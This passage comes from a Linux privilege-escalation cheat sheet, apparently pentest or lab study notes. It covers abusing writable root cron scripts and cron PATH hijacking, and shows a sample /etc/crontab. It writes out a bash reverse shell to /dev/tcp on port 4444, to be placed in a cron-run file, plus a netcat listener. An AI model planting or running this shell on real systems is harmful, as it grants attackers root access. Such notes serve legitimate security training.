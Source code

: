suppose above one is the output of `cat /etc/crontab`

* Check if one of the file is writable:

```bash
ls -l FILEPATH
```

* if we can modify the file we can do something similar as the following

### Exploit with a reverse shell

FILENAME:

```bash
#!/bin/bash
bash -i >& /dev/tcp/OUR-IP/4444 0>&1
```

Attacker's Machine

```bash
nc -nvlp 4444
```

Now we have to wait for it to be executed automatically as per the schedule.

---

## 8. Cron Jobs - PATH Environment Variable

```bash
cat /etc/crontab
```

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.


PATH=/home/marcus:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
* * * * * root  overwrite.sh
* * * * * root  /usr/local/bin/compress.sh
```
